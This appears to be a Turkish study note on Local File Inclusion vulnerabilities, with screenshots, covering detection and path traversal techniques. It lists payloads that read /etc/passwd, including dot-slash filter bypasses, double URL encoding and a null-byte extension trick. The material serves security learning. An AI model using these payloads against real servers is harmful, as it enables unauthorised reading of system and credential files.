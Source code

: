 Bu açığın meşhur diğer ismi ==LOCAL FILE INCLUSION (LFI).


>[!FAQ] MDİ Notu
>Biz varlığını şu şekilde anlarız:
>Bize 30.png isimli dosya döndürüldüğünde ../images/30.png giriyoruz.
>Bize geri dönüyorsa bu zafiyetin varlığı meydana çıkıyor.
>(../image/30.png olabilir, ....//images/30.png olabilir.)

#### LFI'ın 4 türü vardır:
- ../../../etc/passwd  temel payload
- ....//....//....//etc/passwd ileri düzey payload
- ..%252f..%252f..%252fetc/passwd bypass'lı payload
- ../../../etc/passwd%00.png  dosya uzantısı içerisine enejkte payload


Burada bize gerekli olan şeylerden birisi 
![[Pasted image 20250316140429.png]]

>[!WARNING] Uyarı
>= işareti olması gereklidir. 
>= işaretinden sonra ../../ şeklinde dizinler arası geçiş yapılır.

![[Pasted image 20250316140558.png |300x300]]

Daha sonra bu şekilde sonuç bize döner.

### BAŞKA BİR YOL ? 

![[Pasted image 20250316141150.png]]

Bu noktada ../../ yapmamıza illaki gerek yoktur. Bazen basit mantık düşünmekte iyidir.

# ==BYPASS YÖNTEMLERİ

....//....//....//etc/passwd

# E TABİ Bİ DE URL ENCODE-DECODE OLAYLARI VAR 😁

### Payload = ../../../etc/passwd
Bunu bir kere encode (URL Encode) edersek : 
..%2F..%2F..%2F..%2Fetc/passwd

Bu payload'ı da encode edersek: 
..%252f..%252f..%252fetc/passwd
Şeklinde bypass yöntemleri ortaya çıkıyor. 

### BAŞKA BİR SEÇENEK
![[Pasted image 20250316143258.png]]
Böyle bir durumda:

![[Pasted image 20250316143314.png]]
Şeklinde bir payload işimizi görür.
![[Pasted image 20250316143339.png|300x300]]

#### SON YOLUMUZ:

![[Pasted image 20250316143617.png]]
Şeklinde bir isteğimiz var. En zor ve en akılalmaz olarak bir yolumuz var. 
![[Pasted image 20250316143642.png]]

Dosya yolu içerisine enjekte ediyoruz.




